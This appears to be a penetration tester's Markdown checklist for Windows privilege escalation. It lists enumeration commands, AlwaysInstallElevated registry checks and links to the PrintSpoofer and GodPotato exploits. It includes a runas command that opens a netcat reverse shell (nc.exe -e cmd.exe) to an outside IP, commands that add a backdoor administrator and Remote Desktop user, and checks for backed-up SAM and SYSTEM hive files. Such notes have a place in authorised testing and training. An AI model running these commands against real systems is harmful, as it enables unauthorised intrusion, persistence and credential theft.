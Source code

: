 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] SeImpersonatePrivilege
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
  - [ ] `AlwaysInstallElevated`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```


## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```

